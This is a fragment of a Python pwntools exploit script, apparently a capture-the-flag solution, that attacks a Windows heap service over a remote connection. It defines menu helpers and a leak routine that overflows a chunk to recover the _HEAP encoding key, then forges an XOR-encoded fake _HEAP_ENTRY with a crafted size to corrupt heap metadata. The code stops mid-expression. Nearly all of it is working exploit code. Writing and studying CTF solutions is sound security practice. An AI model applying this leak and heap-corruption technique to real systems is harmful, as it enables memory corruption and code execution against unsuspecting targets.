 ```python
	if need_newline:
		sla("Content:", val)
	else:
		hi.sendafter("Content:", val)

def show(chunk_id):
	sla("Your choice: ", str(3))
	sla("ID:", str(chunk_id))
	return hi.recvline().strip().split("Content: ")[-1]

def free(chunk_id):
	sla("Your choice: ", str(4))
	sla("ID:", str(chunk_id))

def open_file():
	sla("Your choice: ", str(5))
	sla("Your choice: ", str(1))
	sla("Your choice: ", str(3))

def read_file(chunk_id, size):
	sla("Your choice: ", str(5))
	sla("Your choice: ", str(2))
	sla("ID:", str(chunk_id))
 	sla("Size:", str(size))
	sla("Your choice: ", str(3))


def leak(cursor=0):
	global hi, sla
	context.log_level = "error"
	hi = remote(HOST, PORT)
	sla = hi.sendlineafter

	alloc(1, SIZE)
	edit(1, "A" * SIZE)
	try:
		heap_encod = u64(show(1)[SIZE:] + "\x00\x10") ^ 0x1000000d02010003
	except struct.error:
		log.info("_HEAP_ENTRY not leaked")
		return

	# log.info("_HEAP->Encoding = 0x%016x" % heap_encod)

	alloc(2, 0x268)
	alloc(3, 0x200)
	fake_entry = 0x10000027c80101c8 ^ heap_encod
	'''
	0x10000027c80101c8
	   +0x008 Size             : 0x1c8
	   +0x00a Flags            : 0x1 ''
	   +0x00b SmallTagIndex    : 0xc8 ''
	   +0x008 SubSegmentCode   : 0xc80101c8
	   +0x00c PreviousSize     : 0x27
	   +0x00e SegmentOffset    : 0 ''
	   +0x00e LFHFlags         : 0 ''
	   +0x00f UnusedBytes      : 0x10 ''
	'''

	# log.info("fake XOR'ed _HEAP_ENTRY = 0x%016x" % fake_entry)

	alloc(4, 0x1c80 -  # fake chunk size 
	         0x20   -  # sizeof(_HEAP_ENTRY) * 2
	         0x200     # orginal size of overwritten chunk
```